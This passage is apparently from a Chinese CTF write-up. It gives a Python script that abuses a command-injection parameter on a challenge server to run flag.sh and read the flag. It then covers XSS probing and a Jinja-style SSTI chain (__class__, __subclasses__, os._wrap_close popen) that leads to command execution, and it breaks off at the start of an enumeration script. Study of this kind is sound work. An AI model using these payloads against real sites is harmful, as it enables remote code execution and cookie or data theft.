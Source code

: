 ```
```
flag显然就在里面了`flag{2b23462f-b47d-46a8-8016-c3a6e40284e4}`。

另外，根据flag.sh的内容，如果我们可以执行这个文件，环境变量`$GZCTF_FLAG`可以输入到flag文件中，再通过`sort flag`的命令应该也可以拿到flag。这里可以用命令`./flag.sh`执行sh脚本，但是不知道为什么`sh flag.sh`命令不行。总而言之通过两次命令执行应该也能拿到flag。脚本如下：
```python
import requests

session=requests.Session()
data={
    'pwd':'UTIPEZQ',
    'pwd1[]':2
}
url1="http://ctf.mardle.cn:35156/?usn=s878926199a&usn1[]=1&sign=./flag.sh"
url2="http://ctf.mardle.cn:35156/?usn=s878926199a&usn1[]=1&sign=sort flag"
session.post(url=url1,data=data)
response=session.post(url=url2,data=data)
print(response.text)
```

PS：经提醒，`$`被escapeshellcmd过滤掉了，一下子没有反应过来。

## comment_me

打开后看到四句诗，可以修改内容，结合题目名称第一反应是xss，输入`<script>alert(1)</script>`确实出现回显，测试`document.cookie`时发现过滤了点号，但是尝试利用xss平台外带cookie并没有成功。

看了官方wp发现这里原来是个`ssti`漏洞(模板注入漏洞)，测试`{{7*7}}`回显49，测试成功。

笔者在此处认真学习了ssti及其利用，其出现往往是因为变量没有正确进行渲染，成因清楚了那么应该如何利用呢？往往通过字符串(或者数组元组等等)的子类找到其父类直到`<class 'object'>`。
1. `__class__`返回当前对象的类；(注意是两个下划线)
2. `__base__`返回当前对象的父类;
3. `__mro__`以元组形式返回当前对象继承的所有类；
4. `__subclasses__`列出当前对象的所有子类；
5. `__init__.__globals__`调用当前类下的方法；(`__init__`用于初始化类，`__globals__`可以以字典形式返回可以调用的方法)。
对于本题而言官方给出的wp是调用`<class 'os._wrap_close'>`的`popen`方法。

如何确定`<class 'os._wrap_close'>`的位置呢?写一个脚本遍历就可以了：
```python
# 用来寻找<class 'os._wrap_close'>，其中可以调用popen来执行操作。从而可以执行一些操作,当然，你可以选择寻找别的。

classes = """
```